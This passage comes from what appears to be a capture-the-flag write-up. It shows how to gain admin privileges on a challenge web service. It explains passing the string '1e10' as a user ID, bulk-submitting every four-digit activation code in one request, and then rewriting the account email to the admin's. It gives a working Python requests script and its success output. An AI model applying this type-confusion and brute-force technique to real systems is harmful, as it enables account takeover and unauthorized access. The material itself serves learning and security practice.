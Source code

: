 But we are providing strings and not numbers. We could use a notation for integers in Python that uses only four characters, but results in number that is a lot larger: `1e10`

This results in the following: 1 * 10**10 = 10000000000 = 1e10

We should be able to use that. Let's try and create a new user:

```python
admin_user = "admin@cscg.de"
new_admin_user = "admin@foo.bar"
password = "supersecure"
r = requests.post(url, data=json.dumps({
    "action": "create_account",
    "data": {
        "email": new_admin_user,
        "password": password,
        "groupid": "001",
        "userid": "1e10",
        "activation": [f"{i:04}" for i in range(10000)]
    }
}))
print(r.text)
s = requests.Session()
r = s.post(url, data=json.dumps({
    "action": "login",
    "data": {
        "email": new_admin_user,
        "password": password
    }
}))
print(r.text)
r = s.post(url, data=json.dumps({
    "action": "edit_account",
    "data": {
        "email": admin_user
    }
}))
print(r.text)
```

This code results in the following three outputs:

```json
{
    "return": "Success",
    "message": "User Created"
}
{
    "return": "Success",
    "message": "logged in"
}
{
    "return": "Success",
    "message": "Success"
}
```
